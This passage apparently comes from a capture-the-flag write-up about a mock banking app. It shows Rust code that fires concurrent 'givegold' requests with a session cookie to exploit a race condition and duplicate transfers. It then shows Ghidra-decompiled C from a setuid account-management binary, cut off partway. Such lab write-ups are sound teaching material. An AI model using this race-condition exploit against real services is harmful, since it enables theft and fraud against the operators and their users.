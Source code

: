 ```rust
}

async fn get_gold_amount(cookie: &str) -> Result<i32> {
    let client = client().await?;
    let resp = client.get(page_url("home.html")).header(COOKIE, cookie).send().await?;

    let body = resp.text().await?;
    let pos = body.find("Gold: ").unwrap();
    let pos2 = body[pos+6..].find("</a>").unwrap();
    let text = &body[pos+6..pos+pos2].trim();
    Ok(text.parse::<i32>().unwrap())
}

async fn race_send(cookie: &str, target_user: &str, amount: i32) -> Result<()> {
    let tasks = vec![(&cookie, &target_user, amount); CONCURRENT];
    let futures = 
        tasks.iter().map(|(cookie, target_user, amount)| async move {
            let client = reqwest::Client::builder()
            .redirect(Policy::none())
            .build().unwrap();

            let mut params = HashMap::new();
            params.insert("user", (**target_user).to_string());
            params.insert("amount", format!("{}", amount));
            client.post(page_url("api/givegold")).header(COOKIE, **cookie).form(&params).send().await.expect("failed to call");
        });
        
    stream::iter(futures).buffer_unordered(CONCURRENT).collect::<()>().await;
    Ok(())
}
```

## manageaccounts code

this is the main function, which was all that really mattered. i used ghidra 10.2.3 to decompile it, and then renamed variables as necessary as i examined the code.

```c
  setresuid(0,0,0);
  if (param_1 < 3) {
    if (param_1 == 1) {
      log_file_path = "log.txt";
    }
    else {
      log_file_path = *(char **)(param_2 + 8);
    }
    log_file_handle = fopen(log_file_path,"w");
    puts("Welcome to the bank API system user Brian!\n");
    showhelp();
    puVar3 = (undefined8 *)&account_opened;
    for (lVar2 = 0x10; lVar2 != 0; lVar2 = lVar2 + -1) {
      *puVar3 = 0;
      puVar3 = puVar3 + (ulong)bVar4 * -2 + 1;
    }
    *(undefined4 *)puVar3 = 0;
    *(undefined2 *)((long)puVar3 + 4) = 0;
    entered_command = getChoice();
    while (entered_command != 'q') {
      valid_action = isValidAction((int)entered_command);
      if (valid_action == '\0') {
        puts("Unrecognised action. Type h for help.\n");
      }
```